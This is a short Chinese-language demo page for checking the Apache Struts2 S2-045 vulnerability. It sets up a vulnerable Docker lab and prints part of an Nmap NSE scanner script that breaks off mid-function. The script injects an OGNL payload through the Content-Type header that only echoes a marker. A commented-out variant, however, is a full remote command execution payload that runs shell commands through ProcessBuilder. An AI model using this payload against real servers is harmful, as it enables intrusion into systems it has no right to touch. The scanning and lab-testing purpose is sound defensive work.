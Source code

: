 
demo: s2_045漏洞验证

环境搭建:
```
$ docker pull medicean/vulapps:s_struts2_s2-045

$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-045

wget https://github.com/Z-0ne/ScanS2-045-Nmap/blob/master/struts2-scan.nse
```

代码:s2_045.nse
```
description = [[
Struts2 S2-045 Checks
]]

---
-- nmap -script struts2-scan -sS -p 80,8080,81,82,83,84,85,86,87,88,8888,8088 -n -d ip -oX outscan.xml
--
-- BeaconLab http://plcscan.org/blog/
---

categories = {"discovery", "safe"}
author = "Z-0ne"
license = "Same as Nmap--See http://nmap.org/book/man-legal.html"

local http = require "http"
local target = require "target"
local shortport = require "shortport"
local stdnse = require "stdnse"
local table = require "table"

--use script to scan any open TCP port
portrule = function(host, port)
  return port.state == "open"
end


action = function(host, port)
  local output = stdnse.output_table()
  local options
  local payload = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('Struts2S2045Checks!!!')).(#o.close())}"
  --local payload_cmd = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
  local useragent = "Mozilla/5.0"
  options = {header = {}, timeout = 15000}
  options["header"]["Content-type"] = payload
  options["header"]["User-Agent"] = useragent
  local response = http.get(host, port, "/", options)
  if response.status == 200 then
    if string.find(response.body, "Struts2S2045Checks") ~= nil then
	  -- exclude index "php default phpinfo() page"
	  if string.find(response.body, "phpinfo") == nil then
```